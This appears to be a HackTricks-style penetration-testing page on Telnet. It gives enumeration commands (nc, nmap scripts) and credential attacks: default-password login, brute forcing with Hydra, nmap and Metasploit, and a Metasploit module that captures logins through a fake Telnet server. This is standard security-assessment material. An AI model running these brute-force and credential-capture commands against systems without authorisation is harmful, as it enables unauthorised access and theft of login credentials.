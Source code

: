 # 23 - Pentesting Telnet

## **Basic Information**

Telnet is an old network protocol that provides insecure access to computers over a network. It is used to connect to remote systems over TCP/IP networks. However, due to security vulnerabilities, its usage is not recommended, and more secure alternatives like SSH are preferred.

Telnet operates on a client-server model, where a system acts as a server and others act as clients. The server grants access to remote devices, while clients connect to the server to send commands and receive responses.

Telnet is vulnerable to sniffing attacks. It can also be vulnerable to attacks where it uses default credentials or lacks authentication for access.

**Default port:** 23

```
23/tcp open  telnet
```

## **Enumeration**

### **Banner Grabbing**

```bash
nc -vn <IP> 23
telnet <target-ip> <target-port>
#target port is optional
```

All the interesting enumeration can be performed by **nmap**:

```bash
nmap -n -sV -Pn --script "*telnet* and safe" -p 23 <IP>
```
## Assessing Encryption on Telnet Server
The telnet-encryption script of Nmap is designed to assess the presence of encryption support on Telnet servers. It should be noted that incorrect implementations in certain systems may result in security vulnerabilities. This script solely evaluates the availability of encryption support.
```
nmap -p 23 --script telnet-encrpytion X.X.X.X
```
## Extracting NTLM Authentication Details on Telnet Server
The telnet-ntlm-info script of Nmap is designed to gather information from remote Microsoft Telnet services that have NTLM authentication enabled. By initiating a MS-TNAP NTLM authentication request using null credentials, the script prompts the remote service to return a NTLMSSP message. This response reveals critical information, including the NetBIOS name, DNS name, and the operating system's build version.
```
nmap -p 23 --script telnet-ntlm-info X.X.X.X
```
### [Brute force](../generic-hacking/brute-force.md#telnet)

# Attack Vectors
## Passwordless Authentication
Telnet allows users to connect to a server without needing a specific identity by utilizing a passwordless login feature. This method is commonly employed for accessing or downloading public files.

To connect without a password, you would use the following command:
```
telnet X.X.X.X

#provide username
#do not provide any password
```
## Common Credentials
If anonymous login is disabled on the Telnet server, trying common usernames and passwords like admin, administrator , root , user, or test can be a good initial step. This approach is less aggressive than attempting to guess passwords through brute force and is recommended to try first when accessing a server.
```
telnet X.X.X.X

#provide a common username
#provide a common password
```
## Bruteforcing Credentials
A brute-force attack involves trying many passwords or usernames to find the right one for accessing a system.

Tools like Hydra are designed for cracking into networks and can be used on services like Telnet, HTTP, SMB, etc. For Telnet, Hydra often carries out a dictionary attack, which means it uses a list of possible usernames and passwords from a file to try and log in.

## Bruteforcing with Hydra
To use Hydra for brute-forcing Telnet login credentials, you would use a command structured for this purpose:
```
hydra [-L users.txt or -l user_name] [-P pass.txt or -p password] -f [-S port] telnet://X.X.X.X
```
## Bruteforcing with Nmap
It is also possible to perform brute force on Telnet with Nmap scripts:
```
nmap -p 23 --script telnet-brute X.X.X.X
```
## Bruteforcing with Metasploit
It is also possible to apply brute force with Metasploit modules on Telnet:
```
use auxiliary/scanner/telnet/telnet_login
msf auxiliary(telnet_login) > set rhosts X.X.X.X
msf auxiliary(telnet_login) > set user_file /path/to/user.txt
msf auxiliary(telnet_login) > set pass_file /path/to/pass.txt
msf auxiliary(telnet_login) > set stop_on_success true
msf auxiliary(telnet_login) > exploit
```
## MITM: Telnet Spoofing with Metasploit
A man-in-the-middle attack to capture Telnet login credentials can be performed using the Metasploit module.
````
use auxiliary/server/capture/telnet
set srvhost X.X.X.X
set banner Hackviser Telnet Server
exploit
````

## HackTricks Automatic Commands

```
Protocol_Name: Telnet    #Protocol Abbreviation if there is one.
Port_Number:  23     #Comma separated if there is more than one.
Protocol_Description: Telnet          #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for t=Telnet
  Note: |
    wireshark to hear creds being passed
    tcp.port == 23 and ip.addr != myip

    https://book.hacktricks.xyz/pentesting/pentesting-telnet

Entry_2:
  Name: Banner Grab
  Description: Grab Telnet Banner
  Command: nc -vn {IP} 23

Entry_3:
  Name: Nmap with scripts
  Description: Run nmap scripts for telnet
  Command: nmap -n -sV -Pn --script "*telnet*" -p 23 {IP}
  
Entry_4:
  Name: consoleless mfs enumeration
  Description: Telnet enumeration without the need to run msfconsole
  Note: sourced from https://github.com/carlospolop/legion

Command:
  msfconsole -q -x 'use auxiliary/scanner/telnet/telnet_version; set RHOSTS {IP}; set RPORT 23; run; exit'
  && msfconsole -q -x 'use auxiliary/scanner/telnet/brocade_enable_login; set RHOSTS {IP}; set RPORT 23; run; exit'
  && msfconsole -q -x 'use auxiliary/scanner/telnet/telnet_encrypt_overflow; set RHOSTS {IP}; set RPORT 23; run; exit'
  && msfconsole -q -x 'use auxiliary/scanner/telnet/telnet_ruggedcom; set RHOSTS {IP}; set RPORT 23; run; exit'
  
```
